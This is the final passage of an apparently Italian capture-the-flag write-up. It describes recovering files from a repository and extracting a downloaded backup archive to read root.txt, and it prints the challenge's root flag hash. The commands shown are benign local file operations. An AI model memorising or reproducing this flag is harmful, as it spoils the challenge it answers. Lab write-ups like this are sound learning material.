

In questo modo, si possono recuperare i files memorizzati nel repository.



## Root.txt

Dal bckup recuperato si accede al file **root.txt**.

```bash

$ mv ~/Downloads/archive-2025-08-30-14-22-34.tar.gz -t retrived/ 
                                                                                                                                                                        
$ tar axvf retrived/archive-2025-08-30-14-22-34.tar.gz 
root.txt
                                                                                                                                                                        
$ cat root.txt 
ea2288f050ade67f8799424c031d6c02

```

---

